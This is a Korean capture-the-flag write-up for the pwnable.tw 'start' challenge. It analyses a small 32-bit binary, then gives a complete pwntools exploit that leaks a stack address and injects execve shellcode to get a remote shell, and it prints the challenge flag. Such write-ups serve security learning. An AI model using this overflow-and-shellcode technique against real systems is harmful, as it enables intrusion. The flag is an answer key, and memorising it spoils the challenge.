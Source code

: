 ```yaml
---
layout: post
title: "[pwnable.tw] start 풀이"
date: 2018-05-25 04:44
categories: "[Pwn]pwnable.tw"
tags: rotles98
---
```

>## Start [100 pts]
### Just a start.
### `nc chall.pwnable.tw 10000`
### [start](https://pwnable.tw/static/chall/start)

- - -
# 0x00. 분석

{: refdef: style="text-align: center;"}
![file](/img/pwnable.tw/start/01.png)
{: refdef}

32bit고 보호기법은 안 걸려있네요!

{: refdef: style="text-align: center;"}
![disassemble](/img/pwnable.tw/start/02.png)
{: refdef}

IDA로 열어 보면 `_start`밖에 없는 간단한 프로그램 입니다.

int 0x80을 사용해 함수를 호출하는데

[이 사이트](https://syscalls.kernelgrok.com)를 보면 int 0x80에서 레지스터가 어떻게 사용되는지 알 수 있어요.

```c
char buf[14] = "Let's start the CTF:"

write(1, buf, 0x14);
read(1, buf, 0x3C);
```

대충 c언어로 바꿔보면 위처럼 나오네여

- - -
# 0x01. 공격 방법

자, 이제 생각해봅시다아아

딱 봐도 bof가 가능하겠네요!

음... NX가 안걸려있으니까 쉘코드를 사용할게요.

1. 스택 주소 구하기

2. 스택에 쉘코드 삽입

3. 해당 주소로 리턴

이 순서로 공격할게요.

- - -
# 0x02. 정보 수집

## 1. 스택 주소 구하기

```asm
push "Let's start the CTF:"
mov ecx, esp
mov dl, 14h
mov bl, 1
mov al, 4
int 80h
xor ebx, ebx
mov dl, 3Ch
mov al, 3
int 80h
add esp, 14h
retn
```

`read`는 끝나면 `add esp, 14h`로 스택을 정리해주네여

그럼 `read`가 끝나고 스택도 정리한 후에 다시 `write`를 실행시키면 정리된 스택이 출력되고 다시 그 부분부터 `read`가 또 실행될거에여

호다다닥 해봅시다.

```python
from pwn import *
context.log_level = "debug"

s = remote("localhost", 4444)

s.recv()

dummy = "A"*0x14

payload = dummy
payload += p32(0x08048087)

s.send(payload)
```

{: refdef: style="text-align: center;"}
![stack_leak](/img/pwnable.tw/start/03.png)
{: refdef}

누가봐도 스택처럼 생긴 `0xffae9020`이 바로 나와주네요!

혹시 모르니 gdb로 맞는지 확인해 봅시닷.

{: refdef: style="text-align: center;"}
![gdb_check](/img/pwnable.tw/start/04.png)
{: refdef}

- - -
# 0x03. 익스플로잇

24byte 쉘코드를 사용했습니다아아

```python
from pwn import *
context.log_level = "debug"

#HOST = "localhost"
HOST = "chall.pwnable.tw"
#PORT = 4444
PORT = 10000

############################################

s = remote(HOST, PORT)

elf = ELF("./start")
#libc = ELF("./")
pause()

############################################

main_addr = 0x08048060
func_write = 0x08048087

shell = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
shell += "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99"
shell += "\xb0\x0b\xcd\x80"

dummy = "A"*20

############################################

payload = dummy
payload += p32(func_write)

s.recvuntil("Let's start the CTF:")
s.send(payload)

stack_addr = u32(s.recv(4))
s.recv()
print "[*] stack_addr : " + hex(stack_addr)

payload = dummy
payload += p32(stack_addr + 0x14)
payload += shell

s.send(payload)

s.interactive()
```

### FLAG{Pwn4bl3_tW_1s_y0ur_st4rt}